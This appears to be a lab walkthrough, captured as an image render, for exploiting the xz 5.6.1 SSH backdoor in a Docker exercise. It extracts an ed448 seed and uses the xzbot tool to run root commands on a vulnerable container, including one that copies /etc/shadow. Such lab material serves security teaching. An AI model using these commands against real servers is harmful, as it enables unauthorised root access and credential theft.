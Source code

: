 > [Note:](https://github.com/dguerri/exploits-collection/blob/main/xz-5.6.1-backdoor/README.md)
> The ed448 key pair is generated from a random seed. Info on the key and its seed are printed out and stored in `/exploit/ed448info.txt`

We want to get the key and seed that it randomly generated during setup. In the real world, this would be the private key that only the original creators of the exploit have.

```bash
# this extracts the seed from the information printed during the challenge setup
seed="$(sed -n 's/^Seed: \([0-9][0-9]*\)/\1/p' /exploit/ed448info.txt)"
# you can do 'cat /exploit/ed448info.txt' for more information.
```

```bash
# Make sure you can run xzbot. ask it for help
/exploit/xzbot/xzbot --help
# (the specific installation location is arbitrary to this exercise)
```

<aside>
You should see:

```
Usage of /exploit/xzbot/xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
```

</aside>

```bash
# use the seed we found earlier
/exploit/xzbot/xzbot -addr xzbackdoor-vulnerable:22 -seed "$seed" -cmd "cat /etc/shadow > /tmp/.xz"
```

Note the output of this should end with "`ssh: handshake failed: EOF`". This is normal.

<aside>

<details><summary>See expected output</summary></details>
</aside>

Now, we can prove that we obtained remote code execution by opening another terminal and running:

```bash
# go into the vulnerable docker container, and read the file that we created via our SSH connection
docker exec xzbackdoor-vulnerable cat /tmp/.xz
```

To prove we're executing as root, we can do the following from the attacking container:

```bash
/exploit/xzbot/xzbot -addr xzbackdoor-vulnerable:22 -seed "$seed" -cmd 'echo "current user: $(whoami)" > /tmp/whoami.txt'
```
